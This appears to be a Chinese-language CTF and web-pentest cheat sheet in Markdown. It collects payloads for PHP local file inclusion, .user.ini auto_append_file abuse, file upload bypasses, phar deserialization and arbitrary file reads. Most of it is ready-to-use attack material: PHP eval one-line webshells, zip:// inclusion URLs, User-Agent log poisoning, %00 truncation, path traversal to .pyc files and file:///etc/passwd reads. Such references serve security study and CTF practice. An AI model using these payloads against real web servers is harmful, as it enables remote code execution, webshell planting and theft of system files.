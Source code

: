 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                   | payload                                                                                                                                         |     |
| ------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                                                                                                                 |     |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         | 文件包含即命令执行                                                                                                                              |     |
| glob://                                                |                                                                                                                                                 |     |
| 上传 a.zip 改为 a.jpg                                  | zip://伪协议进行包含 一句话 a.php `<?php @eval($_POST['a'])?>` <br>url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23a` 密码为 a      |
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log                                                                                      |
| 使用 [.user.ini](#userini) 进行包含                    | auto_append_file=2.jpg                                                                                                                          |
| Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7                   | [CVE-2013-4547](exp/Nginx%20%E6%96%87%E4%BB%B6%E5%90%8D%E9%80%BB%E8%BE%91%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2013-4547%EF%BC%89.md) requests_demo.py |

## .user.ini

相当于 `include('xx.txt')`

| Desc           | .user.ini                                    | payload                                                                                |
| -------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含       | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag
- %00 截断 php 版本小于 5.3.4
- 上传时和文件相关都可能是 phar 反序列化,如 `file_exists($filename)` 考虑 phar 反序列化 `phar://abc.phar.gif/test.txt`
  - 能进行攻击的远不至于 file_get_contents，所有的文件函数都会导致这个问题

```sh
fileatime / filectime / filemtime
stat / fileinode / fileowner / filegroup / fileperms
file / file_get_contents / readfile / fopen
file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is writable.
parse_ini_file
unlink
copy
```

# 文件读取

url=file://127.0.0.1/etc/passwd
url=file:///etc/passwd
